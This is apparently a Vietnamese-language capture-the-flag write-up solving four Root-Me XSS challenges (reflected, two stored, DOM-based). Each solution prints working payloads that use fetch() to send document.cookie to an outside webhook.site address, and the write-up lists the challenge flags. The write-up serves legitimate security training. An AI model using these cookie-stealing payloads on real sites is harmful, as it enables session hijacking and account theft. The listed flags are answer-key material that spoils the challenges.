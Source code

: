 # XSS-Reflected
### Challenge
Link: http://challenge01.root-me.org/web-client/ch26/
### Hint
> alert(’xtra stupid security’);

> Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
### Solution
Đầu tiên, em kiểm tra các tính năng của trang web thì thấy ở trang `contact` có một form cho phép nhập thông tin.
Tuy nhiên lại có dòng:
>Like most businesses, nobody actually checks any of this feedback, but in order to look like we care, we have made a totally useless form you can fill out.`

Nghĩa là form này vô dụng. Em kiểm tra bằng cách nhập thông tin như sau:

![](https://i.imgur.com/j48yzGR.png)

Nhấn send thì không thấy có gì xảy ra, lại có đoạn 
>We have automatically printed out your feedback and burned it to provide our offices with warmth during the harsh Nordic winter
(seriously, nobody wants to read your rambling).`

Vậy nên form này vô dụng thật.
Để ý URL, em thấy có tham số `p` nhận giá trị là trang được truy cập tới. Thử thay đổi giá trị của `p` thì em được chuyển hướng tới trang sau:

![](https://i.imgur.com/CsdmpAT.png)

Thay đổi giá trị của `p` thành `' onclick='alert(1)` được URL encode thì được kết quả như sau:

![](https://i.imgur.com/qReFsgW.png)

Vậy ta có thể khai thác XSS từ đây.
Để lấy được cookie của admin, em fetch đến [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1) với payload sau:
>autofocus onfocus='fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?cookie=${document.cookie}`) 

![](https://i.imgur.com/z7mwHeC.png)

Em đã chuyển hướng được đến trang [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1). Giờ em chỉ cần chọn`Report to administrator` rồi đợi kết quả từ Webhook.

![](https://i.imgur.com/RF3vLEQ.png)

### Flag
`r3fL3ct3D_XsS_fTw`
___
# XSS - Stored 1
### Challenge
Link: http://challenge01.root-me.org/web-client/ch18/
### Hint 
> So easy to sploit

> Steal the administrator session cookie and use it to validate this chall.
### Solution
Vào challenge, xuất hiện một trang cho phép nhập các thông tin `title` và `message`, sau khi nhập và nhấn `send` thì những thông tin này sẽ được lưu lại và hiển thị với người dùng.
Em thử nhập vào ô `messsage` đoạn `<script>alert(1)</script>` thì thấy dòng này được thực thi như sau:

![](https://i.imgur.com/XCLxm38.png)

Vậy trang này dính Stored XSS. Để lấy được cookie của admin, em nhập `message` như sau: 
><script>fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?${document.cookie}`)</script>

Sau đó sang trang [Webhook](https://) đợi, em nhận được `ADMIN_COOKIE`. Theo statement thì cookie này cũng chính là flag.

![](https://i.imgur.com/DAwz6CJ.png)

### Flag
`NkI9qe4cdLIO2P7MIsWS8ofD6`
___
# XSS - Stored 2
### Challenge
Link: http://challenge01.root-me.org/web-client/ch19/
### Hint
> Steal the administrator session’s cookie and go in the admin section.
### Solution
Vào challenge, xuất hiện một trang cho phép nhập các thông tin `title` và `message`, sau khi nhập và nhấn `send` thì những thông tin này sẽ được lưu lại và hiển thị với người dùng.
Em thử nhập vào ô `messsage` đoạn `<script>alert(1)</script>`, nhưng không như bài trước, script này không được thực thi T_T

![](https://i.imgur.com/WjmnotZ.png)

Mặt khác, comment hiển thị có thêm `status:invite`, nằm trong thẻ `<i>` ở source code.
Vào Burpsuit, em thấy ở request có cookie `status=invite`. Thử thay đổi value của cookie `status` rồi send request thì thấy class của thẻ `<i>` được trả về cũng thay đổi theo.

![](https://i.imgur.com/qoZ2pQm.png)

Vậy ta có thể khai thác XSS từ phần cookie này.
Tương tự các bài trước, em tạo payload fetch đến Webhook để admin truy cập vào. Thay đổi value Cookie staus thành payload này. Khi send request, script chèn vào sẽ được thực thi. 

![](https://i.imgur.com/hVxNuI1.png)

Vào Webhook đợi admin truy cập, em có được cookie của admin.

![](https://i.imgur.com/zvxTMqJ.png)

Theo Statement, em dùng cookie có được truy cập vào `admin section` để lấy flag.

![](https://i.imgur.com/nXPKCaG.png)

### Flag
`E5HKEGyCXQVsYaehaqeJs0AfV`
___
# XSS DOM Based - Introduction
### Challenge
Link: http://challenge01.root-me.org/web-client/ch32/
### Hint
> An introduction to DOM Based Cross Site Scripting attacks

> Steal the admin’s session cookie.

### Solution
Vào challenge, em nhập vào số bất kỳ và đương nhiên, kết quả đều sai.

![](https://i.imgur.com/u40CbCk.png)

Xem source code em thấy đoạn script sau:
```
<script>
var random = Math.random() * (99);
var number = '13';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>
```

Theo đoạn mã này thì kể cả em có may mắn nhập số trùng với số của hàm `random()` cũng sẽ không nhận được flag.
Em để ý thấy số mình nhập vào sẽ được truyền vào biến number. Vì vậy em thử nhập thêm đoạn mã sau vào URL: `%27;%20alert(1);%20//` và được kết quả:

    <script>
    var random = Math.random() * (99);
    var number = ''; alert(1); //';
    if(random == number) {
        document.getElementById('state').style.color = 'green';
        document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
    }
    else{
        document.getElementById('state').style.color = 'red';
        document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
    }
    </script>
    
![](https://i.imgur.com/uXfLwhw.png)

Để lấy được cookie của admin, em tạo link fetch đến Webhook như sau:
> %27;%20fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?${document.cookie}`)//
Em thử thì thấy chuyển đến Webhook thành công nên nhập link trên vào trang `/contact.php`.

![](https://i.imgur.com/ruybTIv.png)

Sau đó, ở Webhook, em đã nhận được flag.
### Flag
`rootme{XSS_D0M_BaSed_InTr0}`




